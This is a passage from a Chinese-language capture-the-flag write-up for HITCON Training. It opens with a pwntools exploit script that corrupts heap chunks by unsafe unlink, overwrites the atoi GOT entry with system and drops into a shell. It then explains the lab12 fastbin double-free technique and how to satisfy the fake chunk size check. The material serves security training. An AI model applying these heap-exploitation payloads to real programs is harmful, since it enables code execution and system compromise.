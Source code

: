 ```python
add_item(256,'aaaaaaaa')#chunk0
add_item(256,'bbbbbbbb')#chunk1
add_item(256,'cccccccc')#chunk2

pay = p64(0)+p64(256+1)+p64(p_chunk0-0x18)+p64(p_chunk0-0x10)
pay += 'A'*(256-4*8)
pay += p64(256)+p64(256+0x10) + 'test'

change_item(0,len(pay),pay)

remove_item(1)

pay2 = '\x00'*0x18 + p64(p_chunk0-0x18) + p64(0)+ p64(bin.got['atoi'])
change_item(0,len(pay2),pay2)
context.log_level = 'info'
d = DynELF(leak,elf = bin)
system = d.lookup('system','libc')
log.success("find system = " + hex(system))
context.log_level = 'debug'
pay2 = '\x00'*0x18 + p64(p_chunk0-0x18) + p64(0) + p64(bin.got['atoi'])
change_item(0,len(pay2),pay2)

change_item(1,16,p64(system))
cn.sendline('$0')

cn.interactive()
```

-

## lab12

这题考察 fastbin attack，严格来说是fastbin dup。就是fastbin的double free（个人理解）

由于fastbin在free时只有这样一条检验是否double free

![](hitcon_training_b23fc4f0b4575456d17d035aebf73264.png)

所以，只要不要**连续**两次释放同一块内存就行，比如`free(p1);free(p2);free(p1);`就不会触发double free。

然后连续两次malloc取走p1,p2，此时p1已经被取走，但由于之前double free同时也还留在fastbin list中，就可以对p1中的fd进行修改使fastbin list中的p1出现fd中的bin。

但这个fakebin的size必须和当前的idx满足一定关系（idx+[0,7]），否则是malloc不出来的。

![](hitcon_training_a46533b9b3adb7a091513698fd0ffcc6.png)

而这个fastbin_index是这样定义的

![](hitcon_training_230a2428a0920ba8ff575f047dcd096f.png)

实际上是一个unsigned int，也就是说在x64上（假设此时idx为0x20），我们的size的高位不是全要为零，而是`0x????????00000020 + [0,7]`，高4字节是可以任意的。比如0xffffffff00000023就是可以的。
